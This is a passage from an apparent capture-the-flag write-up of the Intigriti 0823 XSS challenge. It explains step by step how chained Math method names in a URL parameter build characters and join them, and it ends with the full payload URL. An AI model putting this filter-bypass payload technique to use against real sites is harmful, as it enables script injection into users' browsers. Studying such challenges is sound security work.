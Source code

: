 Clean! These are the steps we executed till now: https://challenge-0823.intigriti.io/challenge/index.html?q=Math.seeds.pop,Math.abs.name.charAt,Math.seeds.push,Math.cos,Math.log.name.charAt,Math.seeds.push,Math.cos,Math.exp.name.charAt,Math.seeds.push,Math.cos,Math.round.name.charAt,Math.seeds.push,Math.sin,Math.tan.name.charAt,Math.seeds.push,Math.clz32,Math.cosh,Math.log2,Math.ceil,Math.toString.name.constructor.fromCharCode,Math.seeds.push,Math.tan,Math.constructor.defineProperties.name.charAt,Math.seeds.push,Math.log10,Math.round.name.charAt,Math.seeds.push,Math.cos,Math.ceil.name.charAt,Math.seeds.push,Math.cos,Math.seeds.unshift.name.charAt,Math.seeds.push,Math.cos,Math.max.name.charAt,Math.seeds.push,Math.sin,Math.exp.name.charAt,Math.seeds.push,Math.log,Math.sin.name.charAt,Math.seeds.push,Math.tan,Math.sqrt.name.charAt,Math.seeds.push,Math.sqrt,Math.atan,Math.exp,Math.exp,Math.ceil,Math.toString.name.constructor.fromCharCode,Math.seeds.push,Math.sqrt,Math.round.name.charAt,Math.seeds.push,Math.log10,Math.round.name.charAt,Math.seeds.push,Math.sin,Math.max.name.charAt,Math.seeds.push,Math.tan,Math.abs.name.charAt,Math.seeds.push,Math.tanh,Math.sin.name.charAt,Math.seeds.push,Math.acosh,Math.round.name.charAt,Math.seeds.push,Math.sqrt,Math.clz32,Math.cosh,Math.log2,Math.ceil,Math.toString.name.constructor.fromCharCode,Math.seeds.push,Math.seeds.shift,Math.seeds.shift,Math.seeds.shift,Math.seeds.shift

Now we have to join it using `Math.seeds.join`. Here is the result from Dev Tools.

![Wrong Join Seeds](./imgs/wrong_join_result_seeds.png)

Oops! We have them comma separated :disappointed:. So how to make it join without the comma? We know that `Math.seeds.join("")` with an empty string as an argument will join without the `,`.

![Seeds Empty String Join](./imgs/seeds_empty_string_join.png)

But I'm not sure if have some empty strings out there to use and we couldn't use String method to form it from a number. However converting converting an empty array to a string in JS will return an empty string!

 <div style="text-align: center;"><img src="./imgs/empty_string_from_array.png">
     
 </div>

But how do we get the empty array? We could just call <a href="https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/Array" target="_blank">Array</a> constructor with a 0 argument which means creating an empty array and then we could apply join with that empty array as argument. and in order to access to the `Array` constructor we could just access the seeds array and then it's constructor to get it. Also to get the 0, we could just run `Math.floor` since the returned number from the last shift is 0.62536 making it 0. This is the payload to do so: `Math.floor,Math.seeds.constructor,Math.seeds.join`.

The payload is: https://challenge-0823.intigriti.io/challenge/index.html?q=Math.seeds.pop,Math.abs.name.charAt,Math.seeds.push,Math.cos,Math.log.name.charAt,Math.seeds.push,Math.cos,Math.exp.name.charAt,Math.seeds.push,Math.cos,Math.round.name.charAt,Math.seeds.push,Math.sin,Math.tan.name.charAt,Math.seeds.push,Math.clz32,Math.cosh,Math.log2,Math.ceil,Math.toString.name.constructor.fromCharCode,Math.seeds.push,Math.tan,Math.constructor.defineProperties.name.charAt,Math.seeds.push,Math.log10,Math.round.name.charAt,Math.seeds.push,Math.cos,Math.ceil.name.charAt,Math.seeds.push,Math.cos,Math.seeds.unshift.name.charAt,Math.seeds.push,Math.cos,Math.max.name.charAt,Math.seeds.push,Math.sin,Math.exp.name.charAt,Math.seeds.push,Math.log,Math.sin.name.charAt,Math.seeds.push,Math.tan,Math.sqrt.name.charAt,Math.seeds.push,Math.sqrt,Math.atan,Math.exp,Math.exp,Math.ceil,Math.toString.name.constructor.fromCharCode,Math.seeds.push,Math.sqrt,Math.round.name.charAt,Math.seeds.push,Math.log10,Math.round.name.charAt,Math.seeds.push,Math.sin,Math.max.name.charAt,Math.seeds.push,Math.tan,Math.abs.name.charAt,Math.seeds.push,Math.tanh,Math.sin.name.charAt,Math.seeds.push,Math.acosh,Math.round.name.charAt,Math.seeds.push,Math.sqrt,Math.clz32,Math.cosh,Math.log2,Math.ceil,Math.toString.name.constructor.fromCharCode,Math.seeds.push,Math.seeds.shift,Math.seeds.shift,Math.seeds.shift,Math.seeds.shift,Math.floor,Math.seeds.constructor,Math.seeds.join

